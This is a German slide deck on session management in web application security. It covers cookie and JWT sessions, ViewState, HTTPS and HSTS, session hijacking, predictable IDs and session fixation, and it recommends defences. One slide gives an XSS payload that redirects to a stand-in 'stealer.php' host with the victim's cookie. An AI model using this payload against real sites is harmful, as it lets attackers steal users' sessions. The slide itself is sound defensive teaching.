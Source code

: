 ```yaml
---
author: Andreas Happe
title: Web Application Security
--- 
```


# Session Management

## Warum Session-Management?

* Etablierung einer Benutzeridentität über mehrere Requests hinweg
* HTTP selbst ist stateless
* Session wird zumeist über Cookies oder Tokens gebaut

## Session-Ablauf

* Während des Logins wird ein neues Session Token/Cookie generiert
* Bei jedem Folge-Zugriff wird über dieses Token an den Server übertragen
* Die Benutzeridentität wird geprüft
* Beim Logout wird das Token im Browser gelöscht und am Server als inaktiv vermerkt

# Session Möglichkeiten 

## Cookie-based Sessions

* Cookie wird durch den Server gesetzt
* Cookie wird bei jedem Request automatisch durch den Browser mit übertragen
* Möglichkeit des Session-Timeouts und optionale Security-Flags

## Cookies: Client vs. Server-Side Session

## Cookie: Client-Seitig

* Direktes Speichern der Daten im Cookie
* Integrität und Confidentiality muss durch Applikation sichergestellt werden

## Cookie: Server-Seitig

* server-seitig: Random Key (Session ID) im Cookie
* Server-Datenbank über die der Random-Key einem Benutzer zugeordnet wird
* Möglichkeit der Session-Invalidation
* Keine sensiblen Daten innerhalb der Client-Cookies

## Client-Side: JWT

* JSON Web Token: Token-Format inkl. Integritätsschutz
* Server überträgt signiertes Token an Client
* Das Token enthält Zugriffsberechtigungen
* Sollte Datenbankabfragen am Server beim Zugriff vermeiden
* Analog zu Kerberos

## JWT: für Sessions?

![Picture](0x05_jwt_sessions.png){.stretch}

## ViewState

* ViewState beschreibt die Sicht des Client
  * beinhaltet z. B. noch nicht am Server gespeicherte Daten
  * Teilweise als State-Model (welche Aktionen kann der User durchführen)
* Client schickt den ViewState bei jeder Operation mit (HTML hidden form)
* Bei jeder Operation vergleicht der Server ob der ViewState passt

## Viewstate: Security

* Client- oder Server-Seitig Möglich
* Server-Seitig:
  * sehr analog zu einer server-seitigen Cookie-Session
* Client-Seitig: 
  * ViewState muss integritätsgeschützt werden
  * ViewState sollte verschlüsselt werden
  + Wenn StateModel: erschwert Angriffe

# Probleme

## Problem: Session-ID wird verloren

* Verwendung von unverschlüsselten HTTP

![Picture](0x05_session_hijacking.JPG){.stretch}

## Wie kann HTTPS erzwungen werden

* Cookie mit Secure-Flag: Cookie wird nur mittels HTTPS übertragen
* HSTS: Browser macht ein upgrade auf HTTPS bei Folgezugriffen
* CSP: Browser macht ein upgrade auf HTTPS bei Folgezugriffen

Beispiele eines HTTP Response mit gesetzten Header:

``` http
Strict-Transport-Security: max-age=31536000; includeSubDomains
Set-Cookie: CookieName=Wert; path=/; secure
```

## Warum ist ein automatic redirect zu HTTPS nicht ausreichend?

## Problem: Mixed-Content

* Cookie Drive-By, um 2010/2011 herum
* nur Login wird mit HTTPS geschützt
* Rest der Seite mittels HTTP

## Tool: Firesheep

![Picture](0x05_firesheep.png){.stretch}

## Mixed-Content: Current Situation

* Mittlerweile: active mixed-content wird by default geblockt
* Chrome will Download von "gefährlichen" Inhalten mittels HTTP unterbinden

## Problem: Session-ID vorher-bestimmbar

* Angreifer darf Session-ID nicht erraten können
* Schlechte Ideen:
  * aufsteigende Zahlen
  * MD5 auf die Systemzeit
* Immer einen guten Zufallszahlengenerator verwenden
* Entropie-Check der Session-Id

## XSS Lücke

* Annahme: die Webapplikation hat eine XSS-Lücke

![Picture](0x05_session_hijack_xss.png){.stretch}
  
## Beispiel XSS Extraction

```html
<script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
</script>
```

## Lösung für XSS-Lücke

* keine XSS Lücken implementieren
* httpOnly-Flag bei Session Cookies setzen
* CSP verwenden

```
Set-Cookie: CookieName=Wert; path=/; HttpOnly
```

## Problem: Session-ID als GET-Parameter

* wird dadurch in Proxies, Caches, etc. gespeichert
* auch in Browser Historie
* Lösung: Verwendung eines Session-Cookies
* Work-Around: Verwendung von POST Requests

## Problem: Session-Fixation

* Nicht Vorbestimmen der Session, sondern Erzwingen einer Session-ID
* Operation mit Session als HTTP GET Parameter
* Social Engineering

## Problem: Session-Fixation

![Picture](0x05_session_fixation.jpg){.stretch}

* Lösung: Session-ID während Login neu generieren
* Hint: Session bei Logout löschen ist optional

# Recap

## Recap: Session-Management

* serverseitige Sessions verwenden
* SessionId während Login neu setzen
* SessionId während Logout löschen
* Immer/ausschließlich HTTPS verwenden
* Session-Timeouts und Security-Flags verwenden
* SessionId mit kryptographischen Zufallsgenerator erstellen

## Fin
